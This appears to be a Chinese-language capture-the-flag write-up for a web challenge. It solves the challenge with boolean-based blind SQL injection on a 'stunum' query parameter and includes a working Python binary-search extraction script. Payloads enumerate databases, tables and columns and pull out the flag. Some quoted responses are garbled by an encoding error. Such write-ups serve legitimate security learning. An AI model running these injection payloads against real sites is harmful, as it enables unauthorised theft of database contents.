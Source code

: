 ![](<./img/Pasted image 20221223122239.png>)

---
首页长这样

![](<./img/Pasted image 20221223122304.png>)

通过`stunum`传递查询
```php
/?stunum=<num>
```

---
```php
/?stunum=1
```

> Hi admin, your score is: 100

```php
/?stunum=2
```

> Hi åŒå‡»è€é, your score is: 666

```php
/?stunum=3
```

> Hi åˆ«fuzzäº†, your score is: ä½ å°±ä¸ä¼šè¾“ä¸ªå­¦å·?

```php
/?stunum=4
```

> Hi å“¦æ•°æ®å, your score is: AISæˆå‘˜çš„æ•°æ®

逐渐魔法起来力

猜测是不是存在`sql`注入
```php
/?stunum=0^1
```

> Hi admin, your score is: 100

```php
/?stunum=0^0
```

> student number not exists.

尝试直接布尔盲注
```python
import requests
import time
import sys

url = "http://xxx.node4.buuoj.cn:81"

fmt = '0^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)'
false_re = 'exists'

for i in range(0, 100):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        payload = fmt % (i, mid)
        params = {'stunum': payload}
        response = requests.get(url, params)
        time.sleep(0.1)
        if response.text.find(false_re) >= 0: # mid >= ans
            r = mid
        else: # mid < ans
            l = mid + 1
    print(chr(l), end='')
    sys.stdout.flush()
```

> information_schema,ctf

```python
fmt = '0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=\'ctf\')),%d,1))>%d)'
```

> flag,score

```python
fmt = '0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'flag\')),%d,1))>%d)'
```

> flag,value

```python
fmt = '0^(ord(substr((select(group_concat(flag))from(ctf.flag)),%d,1))>%d)'
```

> flag

```python
fmt = '0^(ord(substr((select(group_concat(value))from(ctf.flag)),%d,1))>%d)'
```

> flag{808357e6-c9d9-48c6-84f8-23e18ec19981}

#Web #SQL注入 #布尔盲注 